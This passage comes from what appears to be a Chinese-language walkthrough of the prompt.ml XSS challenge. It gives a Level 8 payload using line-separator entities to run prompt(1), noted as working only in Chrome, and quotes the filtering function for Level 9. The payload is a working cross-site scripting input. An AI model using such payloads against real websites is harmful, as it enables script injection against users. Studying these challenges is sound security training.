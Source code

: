 ![8_1](/img/xss/prompt_ml/level8_001.png)

## Solutions:

仅对chrome有用,firefox不行
<html><b>&#8232;prompt(1)&#8232;&#x2d;&#x2d;></b></html>

## Img:

1.  
![8_2](/img/xss/prompt_ml/level8_002.png)

# Level 9

## Code:

```
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}                           
```
